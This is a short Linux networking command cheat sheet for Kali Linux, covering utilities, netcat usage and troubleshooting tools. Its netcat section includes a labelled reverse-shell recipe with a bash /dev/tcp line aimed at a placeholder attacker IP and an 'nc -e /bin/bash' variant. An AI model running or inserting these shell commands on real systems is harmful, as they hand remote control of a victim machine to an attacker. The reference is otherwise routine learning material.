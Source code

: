 # **Networking Commands - Linux Quick Reference**
Recommended OS: Kali Linux

## Table of Contents
- [Network Utilities](#network-utilities)
- [Netcat Commands](#netcat-commands)
- [Network Troubleshooting](#network-troubleshooting)

---

## Network Utilities

- **`ping`**: Test connectivity to a host.  `ping <hostname or ip>`
- **`ifconfig`**: Display network info, like IP address.  `ifconfig`
- **`netstat`**: Show network connections and statistics.  `netstat -tuln`
- **`ss`**: Show socket statistics (replacement for netstat). `ss -tuln`
- **`whois`**: Retrieve WHOIS information for a domain. `whois example.com`
- **`nmap`**: Scan network for hosts and open ports, for one ip, or a range.
  ex. `nmap <ip>` or `nmap 192.168.1.1-20` or `nmap 192.168.1.0/24`
- **`curl`**: Transfer data to and from a server (HTTP, FTP).  `curl http://example.com/file.zip`
- **`route`**: View or modify the routing table.  `route -n`
- **`mtr`**: Diagnostic tool combining ping and traceroute. `mtr <hostname or ip>`
- **`arp`**: Show or modify the ARP (Address Resolution Protocol) table. `arp -a`
- **`wget`**: Download files from the web. `wget http://example.com/file.zip`


---

## Netcat Commands

- **Scan for certain ports in a range**: `nc -zv <hostname> 1-100` (z-scan without full connection)
- **Host listens on port**:  `nc -lvp 1234` (l-listning, v-verbose, p-port)
- **Client connects to host**:  `nc <IP> 1234`
- **Send file**:  
  1. Receiver (opens port & prepares to save file):  `nc -lvp 4321 > received_file.txt`  
  2. Sender (connects & sends file to receiver’s IP):  `nc <receiver_ip> 4321 < /path/to/my_file.txt` (use absolute path)
- **Reverse Shell**:  
  1. Sender/Attacker (listens for connection)::  `nc -lvp 4444`  
  2. Receiver/Victim (connects & gives interactive shell to attacker):  `bash -i >& /dev/tcp/<attacker-ip>/4444 0>&1`
  - Note: On some systems use `nc -l -p 1234 -e /bin/bash`
- **`ncat`**: Netcat's more secure version for encrypted SSL connections. `ncat --ssl -l 1234`

---

## Network Troubleshooting

- **`dig`**: Query DNS.  `dig example.com`
- **`tcpdump`**: Capture network traffic.  `sudo tcpdump -i eth0` or `sudo tcpdump src host <ip>`
- **`hostname`**: Show or set hostname.  `hostname`
- **`nfsstat`**: Display NFS (Network File System) statistics. `nfsstat -c`
- **`iwconfig`**: Configure wireless network interfaces. `iwconfig wlan0`

---

*Created by MD Harrell*  
For more info, visit the [Kali Linux Docs](https://www.kali.org/docs/).
